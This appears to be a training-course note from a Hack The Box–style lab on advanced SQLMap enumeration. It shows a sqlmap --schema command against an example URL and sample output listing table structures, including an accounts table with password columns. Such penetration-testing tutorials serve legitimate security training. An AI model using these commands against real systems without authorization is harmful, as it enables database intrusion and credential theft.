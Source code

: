 ```yaml
---
sticker: lucide//database-backup
---
```


# Advanced Database Enumeration

Now that we have covered the basics of database enumeration with SQLMap, we will cover more advanced techniques to enumerate data of interest further in this section.

***

### DB Schema Enumeration

If we wanted to retrieve the structure of all of the tables so that we can have a complete overview of the database architecture, we could use the switch `--schema`:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
```